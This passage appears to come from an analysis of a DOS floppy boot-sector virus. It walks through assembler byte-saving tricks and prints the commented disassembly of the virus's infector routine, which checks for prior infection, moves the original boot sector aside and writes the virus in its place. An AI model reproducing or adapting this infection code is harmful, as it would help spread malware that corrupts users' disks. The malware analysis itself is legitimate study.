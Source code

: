 Most assemblers provide a way to force a JMP instance to single-byte-offset form (a standard error is generated if the destination is, in fact, out of reach). 
Some assemblers (like Borland's TASM) allow you to specify the number of passes used to resolve forward-references. With an extra pass or two, the assembler can 
eliminate the wasted NOPs.

Searching the code for forward jumps reveals only two: this one and the one at the one at 0105. Closing up these wasted bytes frees two more bytes of memory -- 
five so far.

```
; At this point the drive is responding - load the boot sector into virus memory segment
; and check if it has been infected.
0066: 33 F6             XOR     SI,SI                   ; Virus starting point
0068: BF 00 02          MOV     DI,$0200                ; Just read boot sector
006B: FC                CLD                             ; Moving forward
006C: 0E                PUSH    CS                      ; Set DS to ...
006D: 1F                POP     DS                      ; ... code segment
006E: AD                LODSW                           ; First word of virus
006F: 3B 05             CMP     AX,[DI]                 ; Looks the same as boot sector?
0071: 75 06             JNZ     $0079                   ; No ... we need to infect
0073: AD                LODSW                           ; Compare second words to be sure
0074: 3B 45 02          CMP     AX,[DI+$02]             ; Looks the same?
0077: 74 21             JZ      $009A                   ; Yes ... already infected
;
; Boot sector is not infected - move original into FAT table and write virus to boot sector.
0079: B8 01 03          MOV     AX,$0301                ; Write one sector
007C: BB 00 02          MOV     BX,$0200                ; Point to original boot
007F: B1 03             MOV     CL,$03                  ; *5 Cyl 0, Sec 3
0081: B6 01             MOV     DH,$01                  ; Head 1, Drive 0
0083: 9C                PUSHF                           ; Set stack as if an interrupt
0084: 2E FF 1E 09 00    CALL    [CS:$0009]              ; Hold original boot sector
0089: 72 0F             JB      $009A                   ; Error ... out of here
008B: B8 01 03          MOV     AX,$0301                ; Write one sector
008E: 33 DB             XOR     BX,BX                   ; At offset 0
0090: B1 01             MOV     CL,$01                  ; Sector 1
0092: 33 D2             XOR     DX,DX                   ; Drive head 0
0094: 9C                PUSHF                           ; As if an interrupt
0095: 2E FF 1E 09 00    CALL    FAR [CS:$0009]          ; Write virus to normal boot entry
;
; Restore original parameters to INT 13 request and do original INT 13.
009A: 5F                POP     DI                      ; Restore all ...
009B: 5E                POP     SI                      ; ...
009C: 07                POP     ES                      ; ...
009D: 5A                POP     DX                      ; ...
009E: 59                POP     CX                      ; ...
009F: 5B                POP     BX                      ; ... Registers
00A0: C3                RET                             ; Done
```

The rest of the Infector code is straightforward. The current bootsector is loaded from the floppy into memory. If the first four bytes of the sector match the 
virus, the sector must already be infected and the virus leaves it alone. Otherwise, the original sector is written to a holding place on the floppy (cylinder 0, 
sector 3, head 1). Then the virus writes itself into the bootsector completing the infection process. Finally, the original INT13 routine is invoked to handle the 
incoming request for the calling program.
